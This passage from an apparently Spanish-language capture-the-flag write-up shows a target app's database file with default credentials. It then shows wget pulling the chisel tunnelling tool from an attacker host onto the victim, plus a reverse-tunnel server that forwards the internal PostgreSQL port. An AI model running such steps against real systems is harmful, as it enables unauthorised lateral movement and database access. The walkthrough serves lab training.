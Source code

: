 Me importa el archivo `db.py` de la aplicación ya que contiene credenciales de la base de datos.
```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)
```

Pero nos damos cuenta de que la BBDD está en otro equipo. Pero con chisel podemos hacer port-forwarding fácilmente.

Me descargo el chisel en la máquina víctima
```shell
wget http://10.10.14.80:8081/chisel -O chisel
Connecting to 10.10.14.80:8081 (10.10.14.80:8081)
chisel               100% |********************************| 8452k  0:00:00 ETA
```

Atacante
```shell
$ /opt/chisel/chisel server --reverse -p 1234
2024/08/02 00:03:21 server: Reverse tunnelling enabled
2024/08/02 00:03:21 server: Fingerprint XmJE32+0pB6QL7Qz0TxHillBb6Cs7f7sLF6uTMD4MnA=
2024/08/02 00:03:21 server: Listening on http://0.0.0.0:1234
2024/08/02 00:04:07 server: session#1: tun: proxy#R:5432=>172.22.0.1:5432: Listening
```
